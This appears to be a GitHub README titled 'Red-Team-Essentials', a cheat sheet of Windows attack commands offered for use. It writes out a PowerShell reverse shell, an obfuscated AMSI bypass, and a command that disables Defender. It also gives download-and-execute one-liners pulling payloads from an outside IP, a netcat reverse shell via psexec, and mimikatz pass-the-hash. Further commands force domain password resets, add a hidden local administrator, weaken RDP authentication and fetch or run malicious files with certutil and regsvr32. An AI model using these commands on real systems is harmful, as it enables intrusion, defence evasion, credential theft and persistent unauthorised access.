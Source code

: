 # Red-Team-Essentials

## Disable Defender 

```Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
 
## Services and startname 

```Powershell
 Get-WmiObject win32_service | format-Table name, startname, startmode
```

## Fore-Change PAssword - generic All 

```Powershell
Set-DomainObjectOwner -Identity stgadm -OwnerIdentity hexninja
Add-DomainObjectAcl -TargetIdentity stgadm -PrincipalIdentity hexninja
$newpass = ConvertTo-SecureString -String 'Password123! -AsPlainText -Force
Set-DomainUserPassword -Identity stgadm -AccountPassword $newpass
```

## Powershell Reverse Shell one Liner (AMSI Bypass)

```Powershell
$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$l = "lol";Set-alias $l ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()
```

## Powershell Download in V4 and V5

```Powershell
 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 ```
 
 ## Ptt using mimikatz
 
```Powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:xyz.local /ntlm:ce03434e2f83b99704a631ae56e2146e /run:powershell.exe"'
```
 
 ## psexec 
 ```Powershell
./ps.exe \\\localip -h -accepteula -u username -p password cmd /c 'C:\nc.exe 192.168.50.138 4444 -e cmd.exe'
 ```
 
## Check Powershell Version 

```Powershell
 $PSVersionTable.PSVersion
```

## Download File Powershell V2 

```Powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 
```

## Download Execute Powershell One Liner 

```Powershell
powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')
```

## AMSI Bypass

```Powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

```Cmd
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 ```
 
 ## Remote desktop login through domain user credentials 
 
 ```sh
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 ```
 
 ## Download Execute powershell
 
 ```Cmd
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 ```
 
 ## Pivoting using sshutle when you have rsa keys 

```sh
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24
```

 ## Adding user on windows cmd line & adding it to local admin group 
 
```Cmd
net user hexninja lolbr654$@123 /ADD
net localgroup administrators hexninja /ADD
```

 ## CertUtil Download remote file
 
 ```cmd
certutil.exe -urlcache -f http://yourip/malicious.exe malicious.exe
```

## CertUtil decode base64

```cmd
certutil -decode malexecbase.b64 malexecutable.exe
```

## regsvr32 to execute malcious dll 

```cmd
regsvr32 /s /u .\exploit.dll
```

## Net1 (you read it right; it's not net) - available functions similar to net

```cmd
Net1 localgroup administrators
Net1 users
```

## Where utility to search for config files and everything 

```cmd
Examples:
    WHERE /?
    WHERE myfilename1 myfile????.*
    WHERE $windir:*.*
    WHERE /R c:\windows *.exe *.dll *.bat
    WHERE /Q ??.???
    WHERE "c:\windows;c:\windows\system32:*.dll"
    WHERE /F /T *.dll
```

